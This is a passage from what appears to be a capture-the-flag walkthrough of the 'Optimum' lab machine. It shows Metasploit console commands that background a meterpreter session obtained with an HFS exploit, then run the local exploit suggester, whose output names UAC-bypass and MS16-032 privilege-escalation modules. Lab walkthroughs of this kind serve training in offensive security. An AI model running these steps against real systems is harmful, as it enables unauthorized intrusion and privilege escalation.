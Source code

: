 ```bash
 2352  1828  cmd.exe               x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\cmd.exe
 2388  664   vmtoolsd.exe          x64   1        OPTIMUM\kostas  C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 2416  664   hfs.exe               x86   1        OPTIMUM\kostas  C:\Users\kostas\Desktop\hfs.exe
```

Unfortunately, nothing interesting there. We can use the `local_exploit_suggester` module by attaching it to the currently active `meterpreter` session. This module will try to find potential exploits to escalate our privileges based on the `sysinfo` output from our current active session:

```bash
# background the active session
meterpreter > bg
[*] Backgrounding session 1...
# search for desired module
msf6 exploit(windows/http/rejetto_hfs_exec) > search local_exploit_suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester

# select the desired module
msf6 exploit(windows/http/rejetto_hfs_exec) > use 0
# check available options
msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


View the full module info with the info, or info -d command.
# attach module to the active session
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
```

We are ready to run the `local_exploit_suggester` module:

```bash
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.8 - Collecting local exploits for x86/windows...
[*] 10.10.10.8 - 190 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/bypassuac_sluihijack: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.8 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.8 - Valid modules for session 1:
============================

```